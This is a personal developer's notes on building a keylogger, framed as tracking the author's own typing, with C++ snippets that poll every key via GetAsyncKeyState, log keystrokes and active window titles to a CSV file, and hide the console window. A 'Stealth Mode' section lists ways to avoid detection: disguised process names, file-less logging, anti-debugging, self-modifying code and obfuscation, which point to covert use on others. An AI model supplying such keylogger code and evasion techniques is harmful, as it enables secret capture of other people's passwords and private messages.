

> WARNING: This is for educational purposes only and ths program is not intended to harm anyone.

Creating a keylogger or spyware is not only unethical but also illegal without explicit consent from all parties involved. The program that I am building tracks your own keyboard and mouse usage for productivity or personal purposes. I am writing these notes as I write my program.

## Introduction

Keylogger is an complex application to build. Moreover it is very operating system dependent. As of now, I am using macOS so I need to study how the keyboard API works on macOS. Hardware is very difficult than software, and studing all this is going to take time. I will create fleeting notes as I continue building it.

### Inspiration

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">made some spyware in rust that captures events I do on my PC and pushes it to an API I also made <a href="https://t.co/aztxQQzYxY">pic.twitter.com/aztxQQzYxY</a></p>&mdash; neovin (@vin_acct) <a href="https://twitter.com/vin_acct/status/1807993787341508886?ref_src=twsrc%5Etfw">July 2, 2024</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

I saw this tweet where the user built a custom spyware _(bit skeptical why I am calling it a spyware)_ that captures their PC events and then the data to a custom API which rendres it on their personal website. Pretty cool! I have no plans of making my activity public, but a keylogger sounds like a really cool project to me. Also I havent touched C++ in a long time.

## Problems to solve

- Build a key logger
  - Is C++ ideal language to build keylogger for macOS?
  - Shall I try golang?
  - or shall I use good ol python?
- research file types to stores this data which is:
  - timeseries
  - high i/o
- create a custom API to store the data somewhere else (optional)

## Requirments

### Key feature

I need a keylogger that will tract the key presses of my keyboard, alphabets, numbers and all special keys like space, enter and shift. I will save the characters in `keys.csv` file. The special keys will be logged with their name on it. Example: ctrl key press will be logged as `[CTRL]`.

### Stealth Mode

To make sure the key logger is _not detected_, we can hide the running process in the background or run it with a disguised name. Other measures include:

- File-less logging: Store the keys in memory insted of a file so no fiel traces can be left out
- Anti-debugging techniques: Implementing techniques like checking for the presence of a debugger or using self modifying code can make it more difficult for someone to reverse-engineer the keylogger.
- Obfuscation: Using code obfuscation techniques such as renaming variables and functions, and using code packing can make it more difficult for someone to understand the keylogger's inner workings.

## Keyboard API

I have a m1 Air. The keyboard API is different for windows and Mac. SO I will create two sections to share my study about keyloggers on both systems. Now since we are using C++ we need the binary executable to have libraries that will run on the given OS. But I think we can make it cross platform using python. There must be libraries that provide OS-specific functionality.

### Windows Keyboard API/Tools to gey keystrokes

Before going further I need to learn about the working of the OS and the keyboard API.

- _GetAsyncKeyState()_: Checks if a key is pressed. Returns `-32767` if pressed, `0` if not. Defined in `<Windows.h>`.

- _0x8000_: A hexadecimal value used to check if a key is pressed. If `GetAsyncKeyState()` & `0x8000` equals `0x8000`, the key is pressed.

- `HWND`: HWND stands for `handle to a window` and its a part of the windows API. Its a unique identifier for a window, and is used in many functions of the Windows API to refer to a specific window.

- `GetForegroundWindow()`: It is a function in windows API that returns a handle to the foreground window. Foreground window is the currently active window, the one with which the user is interacting. It is used in windows programming to retrieve a handle to the foreground window. Only a HWND variable can store the handle returned by `GetForegroundWindow()` function. The syntax is as follows:

```cpp
HWND hwnd_var = GetForegroundWindow();
```

- `GetWindowText()`: Its a function in the windows API that retrieved the text of the specified window's title bar. Its used in out program as follows:

```cpp
GetWindowText(hwnd_var, curr_Window, sizeof(curr_Window));
```

#### Key logging

Lets start with a bare minim code. A program that runs endlessly without any interreption.

```cpp
char i;
    while (1)
    {
        Sleep(10);
        for (i = 8; i <= 255; i++)
        {
            if (GetAsyncKeyState(i) == -32767)
            {
                logger(i, "log.csv");
            }
        }
    }
```

The for loop iterates over all key values (8 to 255). If a key is pressed, `GetAsyncKeyState(i) == -32767` is true, and it logs the key.

The logger function handles logging:

```cpp
HWND hwnd = GetForegroundWindow();
char windowTitle[256];
GetWindowText(hwnd, curr_Window, sizeof(curr_Window));
```

It checks if the current window differs from the previous window. If so, it logs the window title and time:

```cpp
if (strcmp(curr_Window, prev_Window) != 0)
{
time_t current_time = time(NULL);
char *dt = ctime(&current_time);
FILE *OUTPUT_FILE;
OUTPUT_FILE = fopen(file, "a+");
fprintf(OUTPUT_FILE, "\n\n%s\t\t%s", curr_Window, dt);
fclose(OUTPUT_FILE);
strcpy(prev_Window, curr_Window);
}
```

The main part of the logging function looks like this:

```cpp
FILE *OUTPUT_FILE;
OUTPUT_FILE = fopen(file, "a+");

if (key == VK_SHIFT)
    fprintf(OUTPUT_FILE, "%s", "[SHIFT]");
else if (key == VK_RETURN)
    fprintf(OUTPUT_FILE, "%s", "[RETURN]");
else if (key == VK_BACK)
    fprintf(OUTPUT_FILE, "%s", "[BACK SPACE]");
else if (key == VK_LBUTTON)
    fprintf(OUTPUT_FILE, "%s", "[LButton]");
else if (key == VK_ESCAPE)
    fprintf(OUTPUT_FILE, "%s", "[ESCAPE]");
else if (key == VK_CONTROL)
    fprintf(OUTPUT_FILE, "%s", "[CTRL]");
else if (key == VK_CAPITAL)
    fprintf(OUTPUT_FILE, "%s", "[CAPS_LOCK]");
else if (key == VK_MENU)
    fprintf(OUTPUT_FILE, "%s", "[ALT]");
else if (key == VK_TAB)
    fprintf(OUTPUT_FILE, "%s", "[TAB]");
else if (key == VK_LEFT)
    fprintf(OUTPUT_FILE, "%s", "[LEFT_ARROW]");
else if (key == VK_RIGHT)
    fprintf(OUTPUT_FILE, "%s", "[LEFT_RIGHT]");
else if (key == VK_UP)
    fprintf(OUTPUT_FILE, "%s", "[LEFT_UP]");
else if (key == VK_DOWN)
    fprintf(OUTPUT_FILE, "%s", "[LEFT_DOWN]");
else if (key == VK_SPACE)
    fprintf(OUTPUT_FILE, "%s", "[SPACE_KEY]");
else
    fprintf(OUTPUT_FILE, "%s", &key);
fclose(OUTPUT_FILE);
```

The first two lines indicate the opening of the specified file which is `keys.csv`. The fopen function opens the file and the a+ indicates to appending the current key with the existing contents of the log.csv file.

Then the if else statements are checking if the key is any of those virtual keys, if it is then the corresponding text is been printed into the file and if its not among those keys it is printed in the same way using the else statement. The fclose function is used to close the file which was opened. This is the same thing happening to print the window title and time.

In this program we are using `FreeConsole()` to detach the console window from the process hence the process no longer receives standard input or output from the console. This is often used in keylogger programs to hide the console window so that the user does not see the output of the program.

Actions On Key-Combinations
We have two key combinations in our program which are:

- `ctrl + shift + g` :To open the log.csv file.

- `ctrl + shift + q` :To stop the program.

```cpp
if (GetAsyncKeyState(VK_CONTROL) & 0x8000 && GetAsyncKeyState(VK_SHIFT) & 0x8000 && GetAsyncKeyState('G') & 0x8000)
{
ShellExecute(0, "open", "log.csv", 0, 0, SW_SHOW);
}
if (GetAsyncKeyState(VK_CONTROL) & 0x8000 && GetAsyncKeyState(VK_SHIFT) & 0x8000 && GetAsyncKeyState('Q') & 0x8000)
{
exit(0);
}
```

Here we are performing bitwise `AND` operation between the value returned by `GetAsyncKeyState()` and with `0x8000`.

`GetAsyncKeyState()` returns either `0` when key is not pressed or `-32767` if the key is pressed and the expression 0x8000 represents the highest bit in a 16-bit value, which is used to indicate the state of the key. So if it is pressed there will be a non zero value after the bitwise `AND` operation and hence the if statement will be executed.

The `ShellExcecute()` uses the windows API function to open the file. The parameters of the function are: `hWnd`, `IpOperation`, `IpFile`, `IpParameters`, `IpDirectory` and `nShowCmd`.

In the next if statement it executes `exit(0)` which will stop the program.


